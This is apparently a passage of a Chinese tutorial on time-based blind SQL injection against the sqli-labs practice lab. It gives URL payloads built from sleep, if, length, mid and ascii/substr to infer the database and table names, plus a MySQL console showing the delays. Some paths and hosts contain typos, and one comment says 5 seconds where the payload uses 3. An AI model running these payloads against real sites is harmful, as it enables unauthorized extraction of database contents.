 ```
语句的意思是如果数据库名是pikachu就延迟5秒输出，不是的话就立即返回。
```

#### sleep+if+length

```
127.0.0.1:8080/sglilabs/less-2/?id=1%20and%20sleep(if(length(database())=1,5,0))--+
127.0.0.1:8080/sglilabs/less-2/?id=1%20and%20sleep(if(length(database())=8,5,0))--+
```

```
语句的意思是如果数据库名是8位就延迟5秒输出，不是的话就立即返回。
```

#### sleep+if+mid

```
127.0.0.1:8080/sglilabs/less-2/?id=1%20and%20sleep(if(mid(database(),1,1)=%27a%27,5,0)--+
127.0.0.1:8080/sglilabs/less-2/?id=1%20and%20sleep(if(mid(database(),1,1)=%27s%27,5,0)--+
```

```
语句的意思是如果数据库的第一位是s就延迟5秒输出，不是的话就立即返回。
```

#### sleep+if+ascii+limit+substr

```
http://127.0.01:8080/sqlilabs/less-2/?id=1 and if (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(3),0)--+
```

```
语句的意思是如果数据库的第一个表名的第一位的ascii码是101就延迟5秒输出，不是的话就立即返回。
```

---


```
mysql&gt; show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)

mysql&gt; select * from users where id=1 and if (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(3),0);
Empty set (3.00 sec)

mysql&gt; select * from users where id=1 and if (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101,sleep(3),0);
Empty set (0.00 sec)

mysql&gt; select * from users where id=1 and if (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=100,sleep(3),0);
Empty set (0.00 sec)
```
